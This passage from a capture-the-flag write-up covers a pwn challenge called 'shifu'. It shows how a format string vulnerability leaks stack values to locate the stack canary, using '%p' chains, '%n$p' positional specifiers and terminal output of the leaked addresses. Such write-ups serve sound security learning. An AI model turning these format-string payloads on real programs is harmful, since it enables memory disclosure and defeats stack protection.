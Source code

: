 We get `*** stack smashing detected ***: terminated` which is the cause from stack canary being used by the program 

How we can take advantage of this is through the usage of the format string vulnerability

Since it can be used to leak address off the stack we can potentially leak the canary address

But note that the stack canary address changes per runtime of the program

This is an example of leaking address off the stack

```
┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ ./shifu 
What is Your BICCodeName?
Agent: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Welcome: 0x55cc7413007a.0x1.0x7f742cba2190.(nil).0x7f742ccaa6a0.Here is a gift for you: 0x7f742cafc450
Enter your agent!Syncing identify with secret > p.%p.%p.%p.%p.%p.%p.%p.%p.%p. 
Oops Imposter!!!
```

From that we've leaked address off the stack and how we can know that its the stack canary is because stack canary address ends with `00`

We can also specifier the offset address we want to leak by using `%n$p where n=integer value (where we want to leak)`

Lets try it out

```
└─$ ./shifu 
What is Your BICCodeName?
Agent: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Welcome: 0x55cc7413007a.0x1.0x7f742cba2190.(nil).0x7f742ccaa6a0.Here is a gift for you: 0x7f742cafc450
Enter your agent!Syncing identify with secret > p.%p.%p.%p.%p.%p.%p.%p.%p.%p. 
Oops Imposter!!!
                                                                                                                                                                                                                   
┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ ./shifu
What is Your BICCodeName?
Agent: %1$p
Welcome: 0x55add749607a
Here is a gift for you: 0x7f79894bd450
Enter your agent!
Syncing identify with secret >  
Oops Imposter!!!
                                                                                                                                                                                                                   
┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ ./shifu
What is Your BICCodeName?
Agent: %10$p
Welcome: (nil)
Here is a gift for you: 0x7f0b369bb450
Enter your agent!
Syncing identify with secret >  
Oops Imposter!!!
```
